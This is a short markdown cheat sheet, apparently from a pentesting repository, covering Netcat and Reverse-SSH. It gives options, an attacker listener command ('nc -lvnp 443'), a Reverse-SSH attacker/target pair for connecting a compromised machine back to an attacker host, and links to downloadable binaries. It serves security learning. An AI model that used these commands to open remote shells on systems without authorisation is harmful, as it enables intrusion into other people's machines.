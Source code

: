 -----

#### **Netcat**

This tool is very useful of connection target and attacker.

* Usage
```
nc {options} {IP} {PORT}
```
* Options
  - `-n` Use IP address
  - `-l` Listen mode
  - `-v` Details
  - `-p {PORT}` Port
* Example Command

Connection
```
nc -nv 192.168.0.1 9999
```
Listen
```
nc -lvnp 443
```
* Binary File
  - [nc ELF](https://github.com/H74N/netcat-binaries)
  - [nc EXE](https://github.com/int0x33/nc.exe/)

-----

#### **Reverse-SSH**

This tool use for create a stable connection of attacker and target.

* Usage
```
reverse-sshx86 {options} {IP}
```
* Options
  - `-l` Listen mode
  - `-v` Details
  - `-p {PORT}` Port
  - `--reverse` Reverse mode
* Example Command

Attacker
```
reverse-sshx86 -l -v -p 443 --reverse
```
Target
```
reverse-sshx86 -p 443 192.168.0.1
```
* Download
  - [reverse-ssh](https://github.com/Fahrj/reverse-ssh)

